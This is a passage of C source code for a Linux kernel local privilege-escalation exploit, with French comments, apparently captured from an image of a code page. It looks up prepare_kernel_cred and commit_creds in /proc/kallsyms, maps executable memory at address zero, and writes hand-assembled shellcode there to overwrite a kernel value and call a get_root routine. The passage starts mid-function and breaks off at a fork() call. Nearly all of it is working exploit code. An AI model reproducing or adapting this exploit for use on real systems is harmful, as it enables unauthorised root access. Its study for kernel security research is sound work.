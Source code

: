 ```c
  printf("[+] Find %s...\n", name);
  while(ret != EOF) {
    ret = fscanf(f, "%p %c %s\n", (void **)&addr, &dummy, sname);
    if (ret == 0) {
      fscanf(f, "%s\n", sname);
      continue;
    }
    if (!strcmp(name, sname)) {
      fclose(f);
      printf("[+] Found %s at %lx\n", name, addr);
      return addr;
    }
  }
  fclose(f);
  return 0;
}
 
int main(int ac, char **av)
{
    if (ac != 2) {
        printf("./exploit kernel_offset\n");
        printf("exemple = 0xffffffff81f3f45a");
        return EXIT_FAILURE;
    }
 
    // 2 - Appel de la fonction get_kernel_sym pour rcuperer dans le /proc/kallsyms les adresses des fonctions
    prepare_kernel_cred = (prepare_kernel_cred_t)get_kernel_sym("prepare_kernel_cred");
    commit_creds = (commit_creds_t)get_kernel_sym("commit_creds");
    // have_canfork_callback offset <= rendre dynamique aussi
     
    pid_t     pid;
    /* siginfo_t info; */
 
    // 1 - Mapper la mmoire  l'adresse 0x0000000000000000
    printf("[+] Try to allocat 0x00000000...\n");
    if (mmap(0, 4096, PROT_READ|PROT_WRITE|PROT_EXEC,MAP_ANON|MAP_PRIVATE|MAP_FIXED, -1, 0) == (char *)-1){
        printf("[-] Failed to allocat 0x00000000\n");
        return -1;
    }
    printf("[+] Allocation success !\n");
    /* memset(0, 0xcc, 4096); */
    /*
        movq rax, 0xffffffff81f3f45a
        movq [rax], 0
        mov rax, 0x4242424242424242
        call rax
        xor rax, rax
        ret
        replace 0x4242424242424242 by get_root
    https://defuse.ca/online-x86-assembler.htm#disassembly
    */
    unsigned char shellcode[] = 
    { 0x48, 0xC7, 0xC0, 0x5A, 0xF4, 0xF3, 0x81, 0x48, 0xC7, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0xB8, 0x42, 0x42, 0x42, 0x42, 0x42, 0x42, 0x42, 0x42, 0xFF, 0xD0, 0x48, 0x31, 0xC0, 0xC3 };
    void **get_root_offset = rawmemchr(shellcode, 0x42);
    (*get_root_offset) = get_root;
 
    memcpy(0, shellcode, sizeof(shellcode));
    /* strcpy(0, "\x48\x31\xC0\xC3"); // xor rax, rax; ret */
 
    if(-1 == (pid = fork())) {
```